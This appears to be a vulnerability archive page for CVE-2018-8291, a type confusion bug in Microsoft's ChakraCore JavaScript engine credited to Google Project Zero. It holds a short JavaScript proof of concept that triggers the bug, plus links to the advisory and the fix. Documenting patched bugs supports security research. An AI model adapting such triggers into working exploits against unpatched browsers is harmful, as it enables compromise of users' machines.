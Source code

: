 # CVE-2018-8291

- Fix: Aug 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let x = 1;

this.x = 0x1234;  // IsShadowed

// Convert to BigDictionaryTypeHandler, CopyFrom will be used in the process.
for (let i = 0; i < 0x10000; i++) {
    this['a' + i] = 1;
}

// Set IsAccessor
this.__defineSetter__('x', () => {});

// Type confusion
this.x;
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8291)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1576)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/c322694178ece209b0aa73eafd97a036def86eb1)
